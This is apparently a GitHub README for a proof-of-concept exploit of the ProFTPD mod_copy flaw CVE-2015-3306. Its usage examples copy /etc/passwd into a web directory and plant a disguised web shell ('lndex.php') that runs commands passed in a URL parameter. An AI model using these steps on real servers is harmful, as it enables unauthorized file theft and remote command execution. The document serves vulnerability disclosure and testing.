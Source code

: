 # cpx_proftpd

PoC by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow.

###METHOD 1:

usage: 

```
python cpx_proftp.py <IP> <REMOTE_ABSOLUTEPATH_SRC_FILE> <REMOTE_ABSOLUTEPATH_DST_FILE>
```

ex:

```
python cpx_proftp.py 127.0.0.1 /etc/passwd /var/www/pass.txt
```

then try:

```
http://127.0.0.1/pass.txt
```

###METHOD 2:


usage: 

```
python cpx_proftp.py <IP> <REMOTE_ABSOLUTEPATH_WEBDIR>
```

ex:

```
python cpx_proftp.py 127.0.0.1 /var/www/html
```

then try:

```
http://127.0.0.1/lndex.php?img=ls
```
